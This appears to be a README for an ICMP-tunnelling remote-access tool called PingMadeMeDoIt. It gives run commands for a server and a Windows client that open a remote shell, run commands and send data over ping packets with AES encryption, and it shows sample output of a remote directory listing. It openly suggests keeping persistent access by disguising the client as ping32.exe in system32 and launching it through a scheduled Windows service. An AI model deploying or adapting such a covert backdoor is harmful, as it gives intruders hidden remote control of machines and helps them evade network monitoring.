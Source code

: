 # PingMadeMeDoIt
Mom, ping made me do it ! Use ping protocol to enter shell, execute commands or send data.

Use Ping IMCP 8 to send data, receive data. In our example we implemented a shell, job command and simple plain messaging. All of this in combination with some AES-256 encryption sauce.
Ping client will run as normal ping but if you supply client.exe advanced, it will start the custom ping.

Nowadays this technique is quite known but still it's a nice backup to maintain persistence access to a machine. Maybe combinate this with some windows service which calls our custom ping each 60 minutes, put it in system32\ as ping32.exe ?

<b>run server : python PingMadeMeDoIt.py</b>
server commands : shellstart (start shell), shellexit (exit shell), job: cmd (execute cmd provided and return info), if no command is received default behaviour is to send back reply with the text inputted.

<b>run client : PingMadeMeDoIt.exe advanced x.x.x.x hello</b>

<br>
<b>Server Side..</b>
<br><br>
[root@yourmom ping]# python3.11 PingMadeMeDoIt.py<br>
Listening for ICMP Echo requests...<br>
Enter the response text to send : shellstart<br>
Entered shell mode.<br>
$ dir<br>
result: shellresult:  Volume in drive C has no label.<br>
 Volume Serial Number is A69D-9D16<br>
<br>
 Directory of C:\Users\yourmom\filled<br>
<br>
07/30/2023  08:10 PM    <DIR>          .<br>
07/30/2023  08:10 PM    <DIR>          ..<br>
12/08/2020  07:05 PM         2,609,152 BouncyCastle.Mom.dll<br>
07/30/2023  08:10 PM             9,728 Deep.exe<br>
07/30/2023  08:10 PM            24,064 Penetration.pdb<br>
               3 File(s)      2,642,944 bytes<br>
               2 Dir(s)  16,437,215,232 bytes free<br>
<br>
$ shellexit<br>
Shell mode exited.<br>
<br>
<b>Client Side..</b>
<br><br>
C:\Users\yourmom\filled>PingMadeMeDoIt.exe advanced x.x.x.x good<br>
Custom ICMP Echo Request sent successfully.<br>
IP Address: x.x.x.x<br>
Roundtrip Time: 3777 ms<br>
Time to Live (TTL): 50<br>
Buffer Size: 94 bytes<br>
Buffer Data (Hex): 73 67 48 7A 62 44 4E 4C 4C 69 75 49 36 62 6E 6B 42 71 4F 52 45 41 3D 3D 7C 6B 66 4B 53 38 49 63 70 32 6F 4E 30 30 4A 44 49 6C 43 49 30 43 62 31 6D 4B 6F 42 6F 4D 70 6A 43 55 54 54 59 4C 71 70 6C 69 2F 34 3D 7C 6A 48 34 2F 42 42 70 43 34 4A 31 46 46 37 38 79 74 38 49 63 2B 67 3D 3D<br>
Buffer Data (ASCII): sgHzbDNLLiuI6bnkBqOREA==|kfKS8Icp2oN00JDIlCI0Cb1mKoBoMpjCUTTYLqpli/4=|jH4/BBpC4J1FF78yt8Ic+g==<br>
Received command: dir<br>
Send ping reply: shellresult:  Volume in drive C has no label.<br>
 Volume Serial Number is A69D-9D16<br>

 Directory of C:\Users\yourmom\filled<br>

07/30/2023  08:10 PM    <DIR>          .<br>
07/30/2023  08:10 PM    <DIR>          ..<br>
12/08/2020  07:05 PM         2,609,152 BouncyCastle.Mom.dll<br>
07/30/2023  08:10 PM             9,728 Deep.exe<br>
07/30/2023  08:10 PM            24,064 Penetration.pdb<br>
               3 File(s)      2,642,944 bytes<br>
               2 Dir(s)  16,437,215,232 bytes free<br>
<br>
Received shellexit. Exiting the loop.<br>

